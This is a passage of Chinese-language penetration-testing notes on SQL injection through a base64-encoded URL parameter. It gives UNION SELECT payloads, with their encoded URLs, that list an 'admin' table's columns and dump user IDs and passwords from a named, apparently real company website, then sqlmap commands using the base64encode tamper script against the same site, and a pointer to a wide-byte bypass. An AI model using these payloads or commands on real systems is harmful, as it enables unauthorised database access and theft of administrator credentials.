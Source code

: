 ```plain
对admin下的表进行查询 
payload：4 and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='admin' and table_schema='knotwebdb'
编码后：
http://knotsolutions.com/case_study_view.php?id=NCBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLGdyb3VwX2NvbmNhdChjb2x1bW5fbmFtZSksMyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS5jb2x1bW5zIHdoZXJlIHRhYmxlX25hbWU9J2FkbWluJyBhbmQgdGFibGVfc2NoZW1hPSdrbm90d2ViZGIn
记录列名entry_id,user_id,password,type,status
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135221517-6fd376df-4234-4bf0-a400-20ff9b879e92.png)

```plain
查询admin下的uer_id和password的值：
4 and 1=2 union select 1,user_id,password from admin
编码后：
http://knotsolutions.com/case_study_view.php?id=NCBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLHVzZXJfaWQscGFzc3dvcmQgZnJvbSBhZG1pbg==
得到数据，完成注入。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135221371-26745ca5-fb1a-4796-a93f-9651eda65e2f.png)

------

- 真实WEB-JSON数据格式&MD5加密数据

```plain
MD5加密数据：
https://www.wanhuabao.com/goodslist/2e2d7fbdea1afc51.html
2e2d7fbdea1afc51是md5加密类型。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135221587-721df1e9-55d0-4877-a07d-0a3e221001ff.png)

```plain
json 格式类型：
https://www.aliyun.com/solution/industry/digitalfactory?spm=5176.19720258.J_8058803260.74.e9392c4aXqzSjs
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135221539-47684657-8fa0-4c6a-97b3-5d658ce08023.png)

------

- 工具脚本-SQLMAP-脚本Tamper使用指南

```plain
如果之前的SQL注入，sqlmap去跑，如果没有用到base64编码的脚本，那么他就不会判断出注入点。
执行：python310 sqlmap.py -u "http://knotsolutions.com/case_study_view.php?id="
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135221647-352735b5-6175-46d8-8288-2cf712c7501e.png)

```plain
这时候需要使用到tamper脚本（SQLmap自带）：
python310 sqlmap.py -u "http://knotsolutions.com/case_study_view.php?id=" --tamper=base64encode.py
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135221718-ec28f5ce-631f-4c81-8b8b-575f5fe63b81.png)

```plain
宽字节也可以进行绕过，在tamper脚本上，脚本名称：unmagicquoates.py

在php中，有magicquoates转义开关。
```